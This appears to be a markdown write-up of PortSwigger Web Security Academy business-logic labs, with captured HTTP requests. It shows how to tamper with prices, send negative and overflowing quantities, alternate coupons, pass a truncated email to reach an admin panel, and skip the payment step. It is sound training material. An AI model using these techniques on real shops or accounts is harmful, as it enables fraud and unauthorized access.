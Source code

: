 # Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose cheep product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>










<details>
  <summary>Lab: Inconsistent security controls</summary>

1. after doing enumration

```
gobuster dir -u https://0a4800b704e8549d827179ca0018004d.web-security-academy.net -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt 
```
![image](https://github.com/user-attachments/assets/25a10fc0-e937-49c5-9888-c7c06a2ce3b5)

2. try to navigate ``/amdin`` found

![image](https://github.com/user-attachments/assets/ae0455f2-bc54-4b03-ada3-65bfddb111bf)

```
Admin interface only available if logged in as a DontWannaCry user 
```

3. when rigester found this note

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

4. after rigester change ``email`` to ``anyname@dontwannacry.com``

![image](https://github.com/user-attachments/assets/e42e3404-ed42-4b35-b3f6-00c66de07a09)
  
6. now you have acccess to ``/admin``
7. delete ``carlos``

  
</details>








<details>
  <summary>Lab: Flawed enforcement of business rules</summary>


1. login using ``wiener:peter``
2. noties that there is coupon code

![image](https://github.com/user-attachments/assets/33b61cbd-4518-483e-aa65-708598452798)

```
NEWCUST5
```

3. At the bottom of the page, sign up to the newsletter. You receive another coupon code, ``SIGNUP30``.
> ### 4. try applying the codes more than once. Notice that if you enter the same code twice in a row, it is rejected because the coupon has already been applied. However, if you alternate between the two codes, you can bypass this control. 

![image](https://github.com/user-attachments/assets/e559ab83-5443-4e58-a997-690205f73749)

5. click ``place order``


  
</details>














<details>
  <summary>Lab: Low-level logic flaw</summary>


1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request
4. if you add a larg number of `quantity` the ``price`` will happend ``integer overflow`` and it will count from negtive

```http
POST /cart HTTP/2
Host: 0a4f008503c158c382ac42ea00130067.web-security-academy.net
Cookie: session=F1AyWAioFLqVDYMZxyMuY0MDZzrYqBcj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net
Referer: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



productId=1&redir=PRODUCT&quantity=90
```

5. you need   ``2147483647 / 133700 = ~16061 `` jacked
6. you will send this request ``162`` time

```url
productId=1&redir=PRODUCT&quantity=99
```

![image](https://github.com/user-attachments/assets/aaf9f3d3-dd79-4038-9aec-f36de6ade157)

![image](https://github.com/user-attachments/assets/d7e834db-2b69-4c2b-b9a9-642b59ab67c3)

7. now try to buy cheep product more than one time until reach ``small positive`` price
8. now click ``place order``



  
</details>













<details>
  <summary>Lab: Inconsistent handling of exceptional input</summary>


* when ``rigester`` notice :

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

* rigester with any credintionals ``user : 123``
* if you try to navgate ``/admin``

  <img width="891" height="310" alt="image" src="https://github.com/user-attachments/assets/83a40260-124f-4337-ad9e-321ed8b07c98" />

```http
Admin interface only available if logged in as a DontWannaCry user 
```


- > now try to login with
  > ```
  > username: hack1
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string@exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

found the email cutted:

<img width="1247" height="312" alt="image" src="https://github.com/user-attachments/assets/5a6adc6b-c13c-45a0-960e-c5e91138487a" />


- > now try to login with
  > ```
  > username: hack2
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-stringAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@dontwannacry.com.exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

now the email end with ``@dontwannacry.com`` and ``admin panal`` tap appear

<img width="1349" height="365" alt="image" src="https://github.com/user-attachments/assets/18bee200-6ea4-4307-8f56-6bb90a39a8ad" />

<img width="1284" height="461" alt="image" src="https://github.com/user-attachments/assets/f7776dd8-d20f-4df4-96e8-63654fa402e2" />


  
</details>







<details>
  <summary>Lab: Weak isolation on dual-use endpoint</summary>


1. login as **`wiener`**
2. try to change it's password

```
csrf=xnA1Oakwv5UDQ52xSxV4UaMJhuemakJs&username=Wiener&current-password=peter&new-password-1=123&new-password-2=123
```
4. if you try to change username will refuse because the current password put if you delete the current password it will changed


```
csrf=xnA1Oakwv5UDQ52xSxV4UaMJhuemakJs&username=administrator&new-password-1=123&new-password-2=123
```


<img width="1459" height="835" alt="image" src="https://github.com/user-attachments/assets/e1d2a07b-3d0a-4e1e-a60d-4a14f7e7030c" />


<img width="1719" height="688" alt="image" src="https://github.com/user-attachments/assets/7bbf768c-c5f2-4b88-a324-3ad386b45c2d" />


  
</details>





<details>
  <summary>Lab: Insufficient workflow validation</summary>


1. login as `wiener`
2. try to buy something cheap
3. and do place order you will see this endpoint

```
/cart/order-confirmation?order-confirmed=true
```

4. now try to buy high cost item and 

**`change`**

```
/cart?err=INSUFFICIENT_FUNDS
```

**`with`**

```
/cart/order-confirmation?order-confirmed=true
```

<img width="1453" height="823" alt="image" src="https://github.com/user-attachments/assets/39212cc5-5e54-4c3e-bd21-91174444921e" />


  
</details>






<details>
  <summary>Lab: Authentication bypass via flawed state machine</summary>

1. login as `wiener`
2. select role 

<img width="1046" height="431" alt="image" src="https://github.com/user-attachments/assets/43fd0736-3ba8-4f26-bd8f-8d9261a61159" />

3. in request change it from 

```
role=user&csrf=oyT66U3RA5HmiTMXnv6NSH0kDbAtwDSs
```

`to`

```
role=administrator&csrf=oyT66U3RA5HmiTMXnv6NSH0kDbAtwDSs
```

> ### but not work so i loged out and try to login again but Drop the request of :

```
GET /role-selector
```

### and it work

<img width="1588" height="417" alt="image" src="https://github.com/user-attachments/assets/6bb88781-68ec-4b8f-bff9-1257b60a6f53" />


  
</details>




<details>
  <summary>Lab: Infinite money logic flaw</summary>





  
</details>















